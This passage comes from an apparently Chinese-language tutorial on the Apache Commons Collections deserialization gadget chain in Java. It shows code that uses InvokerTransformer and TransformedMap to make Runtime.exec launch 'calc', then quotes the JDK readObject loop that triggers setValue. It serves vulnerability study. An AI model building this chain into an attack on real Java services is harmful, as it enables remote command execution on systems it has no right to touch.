 ```plain
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        //危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
        //public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();//new一个map
        map.put("key","value");//对map进行赋值
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
        for(Map.Entry entry:transformedmap.entrySet()){//将transformedmap传进去，会自动调用到父类里面的setValue方法：
            entry.setValue(r);
        }
    }
}
```

#### 前半条链：

[![](assets/1701612311-f1d1cd958db1cb66739e7449cfcec80c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235051-e0a859a0-20cb-1.png)

然后我们需要找到一个能够遍历`map`的方法，且能把`transformedmap`传进去，最好就是能够找到某个类的`readObject`里面遍历 map 时调用了`setValue`：

然后结果我们就找到了：

[![](assets/1701612311-878101355d476576357c01285089ed56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235056-e3cf64ca-20cb-1.png)

这里恰好是一个 Map.Entry 的形式，然后在遍历 map 以后使用了 setValue：

```plain
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
```
